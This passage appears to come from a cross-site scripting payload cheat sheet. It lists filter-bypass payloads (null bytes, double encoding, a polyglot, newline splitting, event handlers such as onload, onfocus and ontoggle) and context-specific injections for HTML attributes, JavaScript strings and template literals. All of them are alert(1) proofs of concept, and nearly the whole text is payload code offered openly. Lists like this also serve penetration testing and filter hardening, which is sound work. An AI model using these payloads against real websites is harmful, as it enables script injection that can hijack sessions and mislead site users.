 ### 11. Null Bytes
```html
<script>alert(1)%00</script>
<img src=x%00 onerror=alert(1)>
```

### 12. Double Encoding
```html
%253Cscript%253Ealert(1)%253C/script%253E
```

### 13. Polyglot Payloads
```html
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```

### 14. Filter Bypass with Newlines
```html
<img src=x onerror="
alert
(1)">
```

### 15. Using Different Events
```html
<body onload=alert(1)>
<body onpageshow=alert(1)>
<input autofocus onfocus=alert(1)>
<marquee onstart=alert(1)>
<details open ontoggle=alert(1)>
```

---

## Context-Specific Payloads

### Inside HTML Tag Attribute
```html
" onclick="alert(1)
" autofocus onfocus="alert(1)
" onmouseover="alert(1)
```

### Inside JavaScript String
```javascript
'; alert(1); //
</script><script>alert(1)</script>
```

### Inside JavaScript Template Literal
```javascript
${alert(1)}
```
